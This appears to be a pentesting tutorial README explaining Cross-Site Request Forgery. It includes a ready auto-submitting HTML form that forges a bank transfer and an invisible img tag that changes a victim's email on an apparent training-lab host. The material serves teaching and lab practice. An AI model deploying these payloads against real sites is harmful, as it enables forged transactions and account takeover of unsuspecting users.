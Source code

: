 # Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
These attacks can be delivered via either the GET or POST method, depending on the scenario.


## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF using the POST method. To do this, we have to do the action we want to exploit in our own account and capture the resulting POST request. Once we have it, we create an html form to deliver it. 
We can use automated resources such as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or we can use the following script customizing it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First, we capture the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally, we create the CSRF PoC to deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />




## Basic CSRF via GET method EXPLOITATION:
- First, we capture the POST method of the parameter we want to change to our target. We have to **change the request methods** as follows:<br />
![4](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/fff805bc-400f-4bd0-a4a0-bc8975de4e4c)



- Finally we can take the GET URL, changing the way we want to make all the changes we want to do in the victim, and finally delivered it, in this case as a <img>:<br />

  ```html
  <img src="https://0aef003d03e974bd832f197c007b0012.web-security-academy.net/my-account/change-email?email=changingEmail%40gmail.com" width="1" height="1" alt="Message"/>
  ```


